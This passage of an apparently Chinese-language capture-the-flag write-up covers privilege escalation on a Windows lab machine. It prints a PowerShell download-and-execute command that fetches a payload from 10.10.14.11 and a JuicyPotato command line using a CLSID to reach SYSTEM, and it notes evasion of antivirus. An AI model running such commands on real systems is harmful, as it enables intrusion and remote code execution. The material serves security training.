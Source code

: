 上传即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvRodyoWbHHA7mub2LHhnJNSgEkRib7vHiaV9UOgiaDGbXvbo9m1YBwWPjg/640?wx_fmt=png)

随意拿一个文件执行，可以看到需要得条件挺多，条件允许得情况才可提权... 开始把

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvZHN0Zcib83XsSxXElMfUicvx7VPavtbWDroI6lV9O4VerScZrwLyxmEw/640?wx_fmt=png)

这里需要一个 shell... 利用 nishang 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvusNKHY82ZIehHeag1zWZQWc6XJL4qPQMCC48HicJgGmdicdMTu4MQGxQ/640?wx_fmt=png)

```
cmd /c "echo powershell iex(new-object net.webclient).downloadstring(''http://10.10.14.11/dayu'') >shell.bat"
```

写一个 Bat... 利用 powershell 上传 shellcode.... 现在只差 CLSID 了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvwfhBpwGoOIicibRTibDrRpjUjxL4LMfT1JoMx7vic5bcODkA7Ff3OdrMsw/640?wx_fmt=png)

到这里找即可....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvzAa408w2W6NdF2RpEPcWQbHVZ5xVOJ57qsaJlDjMhqibmTsc7ht0Vyw/640?wx_fmt=png)

前面 Nmap 和低权 systeminfo 都可以看出系统信息... 选择 2012 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvRvhgCbYSwQPqdHUQF8QB6fKO8MLo05OQ59bQqVLMic7XvErGe6Oblibg/640?wx_fmt=png)

可以看到随意利用 CLSID 不对... 这里一个一个试即可... 版本所有得 CLSID 都在里面... 不多

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvB8PBjWZaG7Uqw7g1Kq2D7mLn3PdFXFWTWEiax77sLvgBBsgceRQgcfQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpv7ee1b2e0y4AgHFus5AoQ0fnFyB7oeibOgqChDIVoN5aa8zG54RVHWwQ/640?wx_fmt=png)

```
C:\windows\system32\spool\drivers\color\JuicyPotato.exe -p shell.bat -t * -l 1337 -c '{8F5DF053-3013-4dd8-B5F4-88214E81C0CF}'
```

这里出了点问题，前面 CLSID 成功了，但是 80 却没上传 dayu 得 shellcode... 检查发现多打了两个点.... 看图即可...

可以看到成功提权... 这里通过 CLSID 方式绕过了防火墙防病毒模块...

![](https://mmbiz.qpic.cn/mmbiz_png/KjuGCOqDiaaNFtib6VJTMcniaaxmveDTOv0gxK5cXQIzqEMz4nucT2GzXGfSJfX6EoUEkmBoLvFFiaM0hRKjyFbpjQ/640?wx_fmt=png)

三、逆向工程

![](https://mmbiz.qpic.cn/mmbiz_gif/SmicJrKFtALIWrz54cxp3O2ebjtPdQTG273RZmfK4JBv5drfB8QicSuSEDJBdrNh3FXWiceqaEhdqB2vjRED5JnBw/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvIMxmYSOddqgmZz0HZv7vwiaXDRQlbwkKeFmkBfFcYkuewJT3g6hzReg/640?wx_fmt=png)

user 可以正常读取... 这里查看 root 信息还有个小坑...root

可以看到还存在着一个 checkdll.dll 文件... 可以利用它解析 root.exe 成 txt 文件，然后下载即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPznbQjiaiaFTDyKEmDTfrMpvI0gkPr9zlGBVeQj7nmjNCRFqSoTLIKSlqWTAcicZ1KL7uC9ibMmw98og/640?wx_fmt=png)
